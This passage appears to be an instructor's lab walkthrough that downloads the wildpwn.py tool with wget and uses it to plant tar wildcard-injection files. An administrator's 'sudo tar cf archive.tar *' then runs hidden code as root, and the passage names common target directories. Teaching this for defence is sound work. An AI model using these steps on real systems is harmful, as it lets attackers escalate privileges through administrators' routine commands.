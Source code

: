     - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

    - `ls -l`

      ```
      -rw-r--r--   1 instructor  instructor   3.6K Dec 19 12:46 wildpwn.py
      ```

3. Type  `python wildpwn.py tar .` and note that this will create both the malicious script and checkpoint files.

      - `python` is used to run Python programs.
      - `wildpwn.py` is the program we’re executing.
      - `tar` tells `wildpwn.py` to create malicious files that will exploit the `tar` command. This is necessary because `wildpwn.py` can exploit other commands as well.
      - The `.` specifies that these files should be created in the current directory.

   - Run the command and display the output:

      - `python wildpwn.py tar .`
      ```  
      [!] selected payload tar

      [*] Done! Now wait for something like: archive.tar * on . Good Luck!
      ```

    - Running `wildpwn.py` has successfully planted all the files needed for an attacker to exploit the system. These malicious files will be executed as soon as an administrator creates a `tar` archive containing them.

4. The script is now listening for someone to use the tar command. Let's archive this directory to activate the script.

    - This step will display how malicious code will execute when an unsuspecting administrator runs the `tar` command with a wildcard character. 

    - Now, use `tar` with a wildcard to create an archive to generate the malicious files: 

       - Run `sudo tar cf archive.tar *`.

       - Note that this command is run within the directory where `.webscript` is located. If it were run elsewhere, the backdoor would not be generated.

   - Getting this exploit to work requires the system administrator to create the archive from the same folder where `.webscript` lives. Common targets that are often archived in this way include `/tmp`, users' `~` directories, users' `Documents` directories.

5. List the contents of our directory to display that our hidden malicious program and checkpoint files have been created.

    - Run `ls -la` and display the output:

      ```
      drwxrwxr-x 3 instructor instructor  4096 Apr 28 19:53 .
      -rw-r--r-- 1 root       root       10240 Apr 28 19:53 archive.tar
      drwxr-xr-x 2 root       root        4096 Apr 28 19:53 .cache
      -rw-rw-r-- 1 instructor instructor  3699 Apr 28 19:50 wildpwn.py
      drwxr-xr-x 5 instructor instructor  4096 Apr 28 19:49 ..
      ```
